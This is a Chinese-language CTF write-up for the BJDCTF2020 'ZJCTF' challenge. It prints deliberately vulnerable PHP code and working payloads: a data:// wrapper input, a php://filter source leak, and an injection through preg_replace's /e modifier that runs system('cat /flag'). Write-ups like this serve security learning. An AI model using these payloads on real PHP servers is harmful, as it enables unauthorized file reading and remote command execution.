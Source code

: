 # [BJDCTF2020]ZJCTF，不过如此
![](<./img/Pasted image 20221115160913.png>)
```php
<?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }
    
    include($file);  //next.php
}
else{
    highlight_file(__FILE__);
}
?>
```
---
```shell
/?text=data://text/plain,I have a dream&file=next.php
```
![](<./img/Pasted image 20221115161441.png>)

话说回来如果我这样写的话不是还不如直接访问`next.php`嘛QwQ
```shell
/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

> PD9waHAKJGlkID0gJF9HRVRbJ2lkJ107CiRfU0VTU0lPTlsnaWQnXSA9ICRpZDsKCmZ1bmN0aW9uIGNvbXBsZXgoJHJlLCAkc3RyKSB7CiAgICByZXR1cm4gcHJlZ19yZXBsYWNlKAogICAgICAgICcvKCcgLiAkcmUgLiAnKS9laScsCiAgICAgICAgJ3N0cnRvbG93ZXIoIlxcMSIpJywKICAgICAgICAkc3RyCiAgICApOwp9CgoKZm9yZWFjaCgkX0dFVCBhcyAkcmUgPT4gJHN0cikgewogICAgZWNobyBjb21wbGV4KCRyZSwgJHN0cikuICJcbiI7Cn0KCmZ1bmN0aW9uIGdldEZsYWcoKXsKCUBldmFsKCRfR0VUWydjbWQnXSk7Cn0K

解码后长这样
```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
有一个`getFlag()`函数，但是应该怎么调用它呢......

乍一看枚举、正则替换、回显一气呵成，貌似并没有机会

但是细看发现`preg_replace`中的正则表达式有一个没有见过的修饰符`e`

结果翻了半天官方文档也没翻到这个修饰符

翻谷歌发现这玩意早在`php 5.5.0`时代就被弃用，在`7.0.0`中被移除

查看响应中的`X-Powered-By`头，其值为`PHP/5.6.40`，刚好可以使用`e`修饰符
> 如果设置了这个被弃用的修饰符，[preg_replace()](https://www.php.net/manual/zh/function.preg-replace.php) 在进行了对替换字符串的后向引用替换之后, 将替换后的字符串作为`php`代码评估执行(`eval`函数方式)，并使用执行结果 作为实际参与替换的字符串。单引号、双引号、反斜线（`\`）和 NULL 字符在后向引用替换时会被用反斜线转义。

`'strtolower("\\1")'`中使用的是双引号，这意味着可以内插变量，利用这一点插入对`getFlag`的调用

对于`$re`，参考佬的wp，使用`\S*`以匹配所有非空白字符，同时避免`php`对某些特殊字符的处理
```php
/next.php?\S*=${getFlag()}&cmd=system('cat /flag');
```
> flag{a1a7ed7e-d4a8-403c-8d74-d1da5f631dd2} system('cat /flag');

